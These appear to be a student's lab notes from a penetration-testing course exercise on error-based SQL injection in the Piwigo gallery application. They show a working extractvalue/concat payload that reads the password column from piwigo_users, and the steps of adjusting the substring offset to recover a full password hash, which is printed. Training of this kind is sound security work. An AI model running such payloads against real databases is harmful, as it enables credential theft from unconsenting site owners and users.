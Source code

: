 ##### Labs

1. `$P$Ghxmchgk.0YxEQutC7os3dZfBvqGIz/`
![[Pasted image 20240905223418.png]]
```sql
asc, extractvalue('',concat('>',(select substring(password,1,32) from piwigo_users limit 1 offset 0)))
```
First part of Hash `$P$Ghxmchgk.0YxEQutC7os3dZfBvqG`
![[Pasted image 20240905221049.png]]

Our payload worked and we have obtained part of a password value. The "$P$" characters at the start of the password indicate this is a password _hash_.[11](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/case-study-error-based-sqli-in-piwigo-31287/exploiting-error-based-sql-injection-31021#fn-local_id_73-11) We'll need to update our query to extract the next 32 characters to get the full password hash.

While we cannot use a password hash directly to further our access to this application, we have proven that we can use error-based SQL injection payloads to access any data in the database by working around character-based limits.



Going to Modify the `password,1,32` field with small increments to gain the full hash

First part of Hash `$P$Ghxmchgk.0YxEQutC7os3dZfBvqG`
![[Pasted image 20240905221804.png]]
with 1 is above screenshot
`$P$Ghxmchgk.0YxEQutC7os3dZfBvqG`

with 5
`hxmchgk.0YxEQutC7os3dZfBvqGIz/`
![[Pasted image 20240905223305.png]]
with 10 - didnt change from 5
`gk.0YxEQutC7os3dZfBvqGIz/`
![[Pasted image 20240905223328.png]]
Added them together to make complete hash
full `$P$Ghxmchgk.0YxEQutC7os3dZfBvqGIz/`